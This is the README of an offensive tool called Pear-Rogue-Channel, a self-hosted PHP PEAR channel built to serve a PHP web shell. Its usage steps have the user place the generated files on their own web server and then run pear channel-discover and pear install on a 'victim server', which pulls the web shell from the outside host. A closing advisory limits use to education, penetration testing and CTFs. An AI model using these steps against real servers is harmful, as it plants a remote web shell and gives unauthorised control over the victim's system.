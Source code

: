 # Pear-Rogue-Channel
## About
Pear-Rogue-Channel is a custom, self-hosted PHP Pear channel that does one thing: serve a PHP web shell.
## How to use
1. Generate necessary files
```bash
./main.php
```
2. Move all files in `public_html` to the document root (such as `/var/www/html/`) of your web server. For instance:
```bash
mv -i public_html/* /var/www/html/
```
3. Try to execute the following pear commands on the victim server:
```bash
pear channel-discover SERVER_HOST_NAME
pear install CHANNEL_ALIAS/PACKAGE_NAME
```
4. Viola!
## Advisory
All files and scripts should be used for educational purposes, legal penetration testing, and/or CTF competitions. Please don't use them for illegal activities. :cat:
